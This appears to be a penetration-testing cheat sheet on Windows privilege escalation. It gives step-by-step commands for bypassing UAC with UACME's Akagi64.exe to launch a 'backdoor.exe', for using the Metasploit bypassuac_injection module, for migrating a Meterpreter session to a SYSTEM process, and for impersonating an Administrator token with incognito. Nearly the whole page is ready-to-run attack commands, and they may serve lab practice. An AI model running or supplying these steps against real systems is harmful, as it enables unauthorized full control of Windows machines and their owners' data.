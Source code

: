 If you have this error : `System Error 5 has occured.`, **UAC** is probably enabled.

We need to use this Github tool : [UACME](https://github.com/hfiref0x/UACME).

Follow this steps :

1. Find the Windows Version Build :
	```cmd
	systeminfo | findstr "OS"
	```

2. Look on the GitHub repository for the correct key
3. Execute the binary :
```cmd
.\Akagi64.exe <KEY> C:\Temp\backdoor.exe
```

4. Now, we will have more privileges. Migrate to a process executed by `NT AUTHORITY\SYSTEM` :
```bash
meterpreter > ps
-----------------------------------------
---------- A LOT OF PROCESS -------------
-----------------------------------------
meterpreter > migrate <PID>
```


Recommanded keys :
- 33 (Windows 10)
- 23 (Windows 7)

- Writeup : https://medium.com/@kalirudy1807/bypass-uac-with-uacme-0615f3cdb71e

You can also bypass UAC with Metasploit modules : 
- This one is efficient :
```bash
use exploit/windows/local/bypassuac_injection
```

*There are other modules !*

## Impersonate Token

In your meterpreter session, use the Incognito Module :
```bash
meterpreter > load incognito
```

Then, list tokens :
```bash
meterpreter > list_tokens -u
```

Finally, Impersonate the Administrator token :
```bash
meterpreter > impersonate_token "ATTACKDEFENSE\Administrator"
```

*You may need to migrate.*
